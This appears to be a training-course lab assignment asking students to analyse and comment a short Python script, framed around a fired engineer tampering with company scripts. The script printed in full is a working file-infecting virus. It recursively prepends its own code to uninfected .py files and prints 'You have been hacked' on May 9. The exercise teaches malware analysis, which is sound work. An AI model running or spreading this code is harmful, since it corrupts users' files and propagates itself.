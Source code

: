 # Ops Challenge: Python Malware Analysis

## Overview

The ability to read code written by others is a valuable skill to carry into your new career. Today you will analyze a malicious script written in Python and submit an interpreted version of the file with comments.

## Scenario

Last week, a GlobeX engineer was terminated from the organization under unpleasant circumstances. This morning, your service desk team responded to a ticket from the engineering department that their Python script repository had been tampered with, with the words "You have been hacked" written and saved into the scripts themselves. The service desk team also noted that the system clocks had been tampered with on various engineering computers an incorrectly set to May 9. After a careful review of system logs you find that the below script was executed with administrator privilege on various engineering systems.

The GlobeX board of directors has asked you to analyze the contents of this script and explain in plain terms what the script does.

## Objectives

Copy the below Python script to your public GitHub repo. **Do not execute this script in your Ubuntu VM used for class.** If you wish to execute this script, either backup your VM using VirtualBox Snapshot or create a separate VM for testing.

```python
#!/usr/bin/python3
import os
import datetime

SIGNATURE = "VIRUS"

def locate(path):
    files_targeted = []
    filelist = os.listdir(path)
    for fname in filelist:
        if os.path.isdir(path+"/"+fname):
            files_targeted.extend(locate(path+"/"+fname))
        elif fname[-3:] == ".py":
            infected = False
            for line in open(path+"/"+fname):
                if SIGNATURE in line:
                    infected = True
                    break
            if infected == False:
                files_targeted.append(path+"/"+fname)
    return files_targeted

def infect(files_targeted):
    virus = open(os.path.abspath(__file__))
    virusstring = ""
    for i,line in enumerate(virus):
        if 0 <= i < 39:
            virusstring += line
    virus.close
    for fname in files_targeted:
        f = open(fname)
        temp = f.read()
        f.close()
        f = open(fname,"w")
        f.write(virusstring + temp)
        f.close()

def detonate():
    if datetime.datetime.now().month == 5 and datetime.datetime.now().day == 9:
        print("You have been hacked")

files_targeted = locate(os.path.abspath(""))
infect(files_targeted)
detonate()

```

Perform an analysis of the Python-based code.

- Insert comments into each line of the script explaining in your own words what the virus is doing on this line.
- Insert comments above each function explaining what the purpose of this function is and what it hopes to carry out.
- Insert comments above the final three lines explaining how the functions are called and what this script appears to do.

## Stretch Goals (Optional Objectives)

Pursue stretch goals if you are a more advanced user or have remaining lab time.

In your submission, include comments towards the bottom explaining the below:

- Identify all the core Python/coding tools used by this script, e.g. functions.
- What kind of malware is this? Define this type of malware in your own words.
- How well is this code written? Would you have done something differently to achieve the same objective?

## Submission Instructions

- When you are ready to submit your shell script for grading, ACP it from VS Code to your **public** [GitHub](https://github.com/){:target="_blank"} repository. Name the file according to your course code and assignment, e.g. `ops-301d1: Challenge 01`.
- Copy the URL to your GitHub file and paste below as your submission. Add a comment in your Canvas assignment which includes the following:
  - A question within the context of today's lab assignment
  - An observation about the lab assignment, or related 'Ah-hah!' moment
  - How long you spent working on this assignment
